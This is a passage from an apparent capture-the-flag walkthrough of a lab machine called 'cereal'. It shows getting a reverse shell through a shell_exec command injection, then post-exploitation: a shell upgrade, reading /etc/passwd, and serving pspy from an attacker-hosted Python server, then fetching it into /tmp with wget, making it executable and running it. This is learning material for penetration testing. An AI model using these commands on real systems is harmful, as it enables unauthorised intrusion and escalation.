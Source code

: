 now we send our intercepted request to repeater and foward the request so we can get our reverse shell comnection.

![Markdown Logo](/home/d4rk5id3/Documents/cereal/24.png)

after sending our request in the burp repeater we now have our reverse shell connection.

![Markdown Logo](/home/d4rk5id3/Documents/cereal/25.png)

The reason this works is because the isValid variable has been set to True, so the script skips IP Address validation and passes our input directly to the shell_exec function. Therein lies the vulnerability.

## Privilege Escalation

so first of all we  need to upgrade our shell using bash since  python isn't installled on the target system 

***command*** : ```SHELL=bash script -q /dev/null```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/26.png)

![Markdown Logo](/home/d4rk5id3/Documents/cereal/27.png)

now that we have access and an upgraded shell we can attempt to check for other users in machine

***commmand***:```cat /etc/passwd | grep bash ```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/28.png)

we would be making use of pspy to snoop on the processes without requiring root permission. Likewise, linpeas and linenum are some of the Linux enumeration scripts.

now we must start up a python server to enable us transfer the file to our target machine.

***command***: ``` python3 -m http.server 6000```


![Markdown Logo](/home/d4rk5id3/Documents/cereal/29.png)

now we must go under the ***/tmp*** directory and download our file there 

```
cd /tmp

wget http://<ip>:6000/pspy64

chmod +x pspy64

```

![Markdown Logo](/home/d4rk5id3/Documents/cereal/30.png)

now with our file transfer process complete let's begin snooping processes.

***command***: ```./pspy64```

